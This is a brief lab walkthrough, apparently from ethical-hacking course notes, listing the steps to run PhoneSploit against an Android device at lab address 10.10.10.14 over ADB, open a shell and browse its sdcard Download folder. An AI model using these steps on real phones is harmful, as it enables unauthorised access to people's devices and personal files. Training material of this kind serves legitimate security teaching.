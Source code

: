 # 17 - Hacking Mobile

## **Module 17 - Hacking Mobile Platforms**

### **Lab 1-Task 4: Exploit the Android Platform through ADB using PhoneSploit**

* cd Phonesploit
* python3 -m pip install colorama
* python3 phonesploit.py
* 3
* 10.10.10.14
* 4
* pwd
* cd sdcard
* cd Download
